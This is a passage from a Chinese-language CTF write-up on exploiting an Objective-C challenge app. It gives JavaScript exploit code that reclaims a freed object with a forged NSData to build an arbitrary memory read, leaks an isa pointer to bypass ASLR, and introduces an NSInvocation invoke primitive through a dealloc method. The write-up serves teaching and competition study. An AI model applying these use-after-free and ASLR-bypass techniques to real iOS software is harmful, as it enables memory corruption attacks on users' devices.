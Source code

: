 

#### 任意内存读

我们现在通过泄露对象的地址绕过 dyld_shared_cache 的 ASLR，如果希望通过伪造 BackDoor 类来调用 `+[BackDoor getFlag:]` 方法，还需要泄露应用主二进制的 ASLR（当然你也完全可以通过伪造系统类来自己实现一通 getFlag: 方法中的代码）。

在 js 中调用 oc 对象的 toString 函数，最终会调用到对象的 description 方法，而如果这个对象是 NSData 类型的，那么将会打印出来对象内存的十六进制数据，，如果长度超过 24 中间则会用省略号截断。例如：`{length = 192, bytes = 0x41414141 41414141 41414141 41414141 ... 41414141 41414141 }`

NSData 对象内存结构：

<img src="/Users/momo/Library/Application Support/typora-user-images/image-20230915174009155.png" alt="image-20230915174009155" style="zoom:70%;" />

NSData 的第一个成员是 isa 指针，后面是 buffer 的长度和指针，通过将 buffer 的指针指向任意地址，就可以完成任意内存读取的原语。为了避免崩溃将最后一个 callback 成员设置用 0 填充。

在题目中，我们选择主动释放 `N1CTFIntroduction` 对象并伪造 NSData 抢占内存。为了尽量提高 UAF 的成功率题目中将 `N1CTFIntroduction` 对象的大小设置为了 192。NSData 对象在内存中的大小为 32，我们抢占的内存大小为 192，剩余空间用 0 填充。

```javascript
function arbitrary_read(addr, len) {

    var data = make_nsdata(addr, len) // 伪造 NSData，addr 和 len 分别是 buffer 的指针和长度
    var req = n1ctf.makeHTTRequest()
    var ctf = n1ctf.makeN1CTFIntroduction()
    ctf.dealloc()
    req.addMultiPartData_(data)
    return ctf
}
```

通过伪造 NSData 抢占被释放后的内存，垂悬指针指向了 NSData 对象，可以达到任意内存读的效果，虽然读取的长度有限，但是该原语可以重复使用。

通过任意内存读，我们可以读取到应用主二进制中对象的 isa 指针，并绕过 ASLR 随机化偏移。

![image-20230912181536235](/Users/momo/Library/Application Support/typora-user-images/image-20230912181536235.png)

```javascript
var coreservice = n1ctf.makeCoreService()
var coreservice_addr = addrof(coreservice) // 泄露对象地址
var coreservice_memory = arbitrary_read(coreservice_addr, 0x18) // 读取对象内存
const match = /bytes = (0x[\da-f\s]{16})/.exec(coreservice_memory)
var coreservice_isa = hexReverse(match[1]) // 大小端转换
var CoreServiceClass = BigInt("0x" + coreservice_isa) & BigInt(0x0000000ffffffff8)
var ASLR = CoreServiceClass - CoreServiceClass_offset
```

#### 一个强大的 Exploit Primitive

在 Objective-C 开发中，方法调用都被翻译成了 `objc_msgSend` 函数的消息转发。而 NSInvocation 就可以给任意对象发送消息，并且功能强大，允许传递多个参数，也可以调用成功后获取返回值。

CoreService 是 ScriptInterface 的子类。它有一个 NSInvocation 类型的属性 `cancelRequest`，在  `-[CoreService dealloc]` 方法中有一个有趣的实现：

```objective-c
- (void)dealloc {
		...
    [self.cancelRequest invoke];
	  ...
}
```
